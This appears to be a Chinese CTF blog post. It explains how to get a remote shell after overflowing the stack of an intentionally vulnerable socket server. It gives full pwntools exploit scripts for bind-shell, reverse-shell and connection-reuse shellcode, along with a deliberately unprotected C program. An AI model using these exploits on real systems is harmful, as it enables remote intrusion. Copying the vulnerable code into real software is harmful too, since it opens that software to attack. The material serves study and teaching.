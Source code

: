 ```yaml
---
title: Getshell远程：真·RCE 正连？反连？不连？ 
date: 2020-12-13 00:00:03
categories:
- CTF/Pwn
tags: Getshell
---
```


> 真实的网络程序和Pwn题目中把输入输出映射到网络端口，二者程序本体的交互接口显然是不同的，后一种的CTF题目，真的具有现实意义么？如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？如果不能，我如何才能Getshell呢？本篇我们通过一个例题回答上述问题。

## socket

在看例题之前，首先要知道一个真实的网络程序是怎样实现的。在学习计算机网络时我们了解TCP/IP协议栈，在平日的安全研究中，我们能观察到一个程序使用了某个TCP端口，可以用wireshark抓到其通信的流量进而分析，如果分析出什么毛病，则可以用pwntools这种工具来完成基于网络信道的攻击。不过在以上的过程中，似乎并没有了解到我们到底是怎么把数据包发出去的，是从哪个接口来控制的TCP/IP这套协议栈。其实这个接口就是socket，linux提供给用户态程序来控制网络的接口。**一句话理解：socket是API，背后实现了TCP/IP协议栈。**

- [Socket API](https://www.jianshu.com/p/0daaa67dfa29)
- [一文让你透彻理解Linux的SOCKET编程（含实例解析）](https://zhuanlan.zhihu.com/p/180556309)
- [sockaddr和sockaddr_in详解](https://blog.csdn.net/qingzhuyuxian/article/details/79736821)
- [Socket为什么要翻译成套接字？](https://www.zhihu.com/question/21383903)
- [Beej's Guide to Network Programming](https://beej.us/guide/bgnet/)
- [Beej's Guide to Network Programming 翻译](https://github.com/y11022053/Beej-s-Guide_Network_Programming_Chinese_Edition/blob/master/bgnet_cn_michael.txt)
- [Beej's Guide to Network Programming 正体中文版](https://beej-zhtw-gitbook.netdpi.net/)

阅读完以上文章就大概明白了，一个网络连接对应了一个文件描述符，发送和接收数据最基本的方法和文件操作是完全一致的，就是`read/write`。

## 例题

一个简单的栈溢出，不过输入接口是程序自身的启动的网络接口（tcp:8888）

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main (int argc, char **argv)
{
  int  s,c,j  =  0xe4ff;
  char buf[10];
  
  struct sockaddr_in server; 
  server.sin_family      = AF_INET;
  server.sin_addr.s_addr = INADDR_ANY;
  server.sin_port        = htons(8888);

  s = socket(AF_INET,SOCK_STREAM,0);
      bind  (s,(struct sockaddr *)&server,sizeof(server));
      listen(s,10);
  c = accept(s,NULL,NULL);
      read  (c,buf,1000);

  return 0;
}
```

关闭所有保护编译：

```c
➜  gcc main.c -fno-stack-protector -z execstack -no-pie -o main
```

特意预留了0xe4ff这个变量，小端存储对应的机器码就是`jmp rsp`：

```python
>>> from pwn import *
>>> context(arch='amd64')
>>> disasm('\xff\xe4')
'   0:   ff e4          jmp    rsp'
```

找到编译后这个gadget的地址，即可写利用了：

```python
➜  ROPgadget --binary ./main | grep "jmp rsp"
0x0000000000400698 : jmp rsp
```

这里我们全部使用pwntools提供的[shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft)中的shellcode来解题。在常见的CTF题目中，由于和目标程序交互的本质就是标准输入输出，所以直接使用`shellcraft.sh()`，即可执行shell程序并且和我们交互。但是如果用这种方法攻击此例题，则题目本地侧弹出一个shell，远程并无法Getshell：

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.sh())
io.send('a'*40+p64(0x400698)+shellcode)
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/1.png)

那我们如何才能Getshell呢？有如下三种办法：

### 正连

shellcode的功能为：让漏洞程序在其本地开启一个网络端口，并在有连接连入时将shell进程的输入输出绑定到该连接上。在msf中这个叫`shell_bind_tcp`，在pwntools中叫`shellcraft.bindsh()`，参数可以指定端口。如下，我们shellcode将shell开在目标机器的4444端口，然后继续用pwntools的去连接该端口即可在攻击窗口中获得一个交互式的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

io = remote("127.0.0.1",8888)
sc = asm(shellcraft.bindsh(4444))
io.send('a'*40+p64(0x400698)+sc)

sh = remote("127.0.0.1",4444)
sh.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/2.png)

### 反连

shellcode的功能为：让漏洞程序去连接远程的攻击者机器，并且将shell进程的输入输出绑定到此连接上。在msf中这个叫`shell_reverse_tcp`，在pwntools中需要两步`shellcraft.connect()+shellcraft.dupsh()`。根据文档，第一步会把与攻击者建立连接的文件描述符存放到rbp寄存器中，第二步会默认使用rbp寄存器中的文件描述符来重定向shell进程的输入和输出，即完成反连shell。

- [Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)
- [Linux反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)

如下，攻击侧首先使用pwntools的`listen`函数监听本机的4444端口，然后shellcode执行后将shell反弹到攻击侧的4444端口，然后使用pwntools的`wait_for_connection`函数等待反连的连接，连入后即可在攻击窗口中获得一个交互式的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

sh = listen(4444)
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
io.send('a'*40+p64(0x400698)+shellcode)

sh.wait_for_connection()
sh.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/3.png)

### 不连

> [远程漏洞利用：无需借助套接字的Shellcode](https://www.anquanke.com/post/id/85306)

其实并不可能不连。你要远程攻击他，那必定得有数据通路，所以可以复用你攻击打过去的这个连接来获得交互shell。这个不连其实是不产生新的连接，也就是连接复用。在msf中这个叫`shell_find_port`。在pwntools有两种办法可以实现这个复用，第一个是直接用`dupsh()`，参数的立即数直接猜我们打过去连接的文件描述符的编号，第二种方法是`findpeersh`，参数可以指明连接的端口号以挑选出合适的连接（没太研究明白是哪侧的端口）。此种方法在实际演示漏洞中几乎是没有必要的，除非是网络出入规则及其严格的情景下，或者比较古怪的CTF题目中既不让你正连，也不让你反连。如：[X-NUCA 2020 Final 团队赛：QMIPS](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/11/xnuca/)

本题如下，直接在攻击连接上获得交互式shell，并不用产生多余的连接。

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.dupsh(4))
shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/4.png)

### 总结

以上五种shellcode罗列如下：

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.sh())
#shellcode = asm(shellcraft.amd64.linux.bindsh(4444))
#shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
#shellcode = asm(shellcraft.dupsh(4))
#shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

- msf的shellcode可以使用 `msfvenom --list payloads` 查找
- pwntools的shellcode可以直接在文档中查找：[shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html?highlight=shellcraft)

其实这五种shellcode，只要执行了，都是远程代码执行（RCE），但在攻击侧获得一个交互式shell的是后四种。

## 回答

- 问：如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？
- 答：不能在远程拿到shell。

- 问：以上情节，如何远程Getshell呢？
- 答：正连、反连、不连。

- 问：把标准输入输出映射到网络端口的CTF题目，真的具有现实意义么？
- 答：有，其实就是换个shellcode的事。